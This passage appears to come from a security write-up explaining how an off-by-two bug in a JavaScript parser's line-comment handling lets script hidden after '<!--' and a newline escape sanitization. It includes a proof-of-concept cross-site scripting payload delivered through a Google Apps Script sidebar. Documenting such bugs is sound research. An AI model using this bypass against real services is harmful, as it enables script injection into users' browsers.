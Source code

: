 ```javascript
function skipLineComment() {
  var start = tokPos;
  var startLoc = options.onComment && options.locations && new line_loc_t();
  var ch = input.charCodeAt((tokPos += 2));

  while (
    tokPos < inputLen &&
    ch !== 10 &&
    ch !== 13 &&
    ch !== 8232 &&
    ch !== 8233
  ) {
    ++tokPos;

    ch = input.charCodeAt(tokPos);
  }

  if (options.onComment)
    options.onComment(
      false,
      input.slice(start + 2, tokPos),
      start,
      tokPos,

      startLoc,
      options.locations && new line_loc_t()
    );
}
```

The bug here is that this method increments the tokPos by 2 again. So the parser will think that the line comment actually starts two characters after the `<!--` token. What it means for us is that if there is a new line character immediately after the `<!--"` then the parser will ignore it and treat the whole next line as a comment.

And this is great because in the following code...

```javascript
<!--
\\u{77}indow.top.eval('alert(document.domain)')
```

The parser will treat the second line as a comment and won't parse it. The browser however will later happily execute it. So the last payload needed to be tweaked a bit:

```javascript
function onOpen(e) {
  showSidebar();
}
function onInstall(e) {
  showSidebar();
}
function showSidebar() {
  var payload =
    '<script><!--\n\u{77}indow.top.eval("alert(document.domain)")</script>';

  var ui = HtmlService.createHtmlOutput(payload)
    .setSandboxMode(HtmlService.SandboxMode.NATIVE)
    .setTitle("XSS");

  DocumentApp.getUi().showSidebar(ui);
}
```
